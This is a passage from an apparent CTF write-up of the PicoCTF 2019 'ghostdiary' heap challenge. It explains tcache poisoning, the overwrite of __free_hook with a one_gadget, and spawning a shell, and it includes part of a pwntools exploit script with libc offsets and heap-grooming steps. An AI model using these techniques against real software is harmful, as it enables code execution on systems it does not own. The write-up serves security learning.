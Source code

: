 At this point, after the setup described, by calling `malloc(0x168)` twice, the second call will return a pointer to `__free_hook`.

### Step 7 - Overwrite __free_hook for Remote Code Execution

With the __free_hook pointer in our possession, the final step is to overwrite it with a gadget that will execute /bin/sh for us. The process involves the following:

1. Identify a Gadget:
   Utilize tools like the One Gadget Tool to find a suitable gadget address within the libc of the running system.
2. Overwrite __free_hook
   Utilize the page pointing to __free_hook due to tcache poisoning and write the address of the RCE gadget to it.
3. Trigger Free:
   Trigger the free function to execute the gadget. This can be done by freeing a page, causing the code at the __free_hook address to be executed.
4. Receive Shell:
   Upon successful execution of the gadget, a shell will be spawned. shell


Adding exploitation code for reference:

```python
from pwn import process, p64, u64
from pwn import log as pwnlog

pwnlog.setLevel('INFO')


class GhostDiaryExploit:
    LEAK_TO_LIBC_BASE_OFFSET = -0x3ec060
    FREE_HOOK_OFFSET = 0x3ed8e8
    RCE_GADGET_OFFSET = 0x4f302

    def __init__(self):
        self._proc = process('/home/oleb/Research/CTF/PicoCTF2019/ghostdiary')

    def exploit(self):
        pwnlog.info('Preparing 3 adjacent chunks in memory')
        pwnlog.debug(self._proc.recv(4096))
        # Create Page0
        self._create_page(0x158)
        # Create Page1 and Page2
        for _ in range(2):
            self._create_page(0x168)

        pwnlog.info('Placing Page0 in the unsorted-bin')
        # Fill 344 sized tcache bin
        for _ in range(7):
            self._create_page(0x158)
        for i in range(7):
            self._free_page(i + 3)

        # Fill 240 sized tcache bin
        for _ in range(7):
            self._create_page(240)
        for i in range(7):
            self._free_page(i + 3)

        # Free Page0
        self._free_page(0)
        pwnlog.info('Using the NULL byte overflow')
        self._exploit_null_overflow(1)
        pwnlog.info('Backward consolidating Page2')
```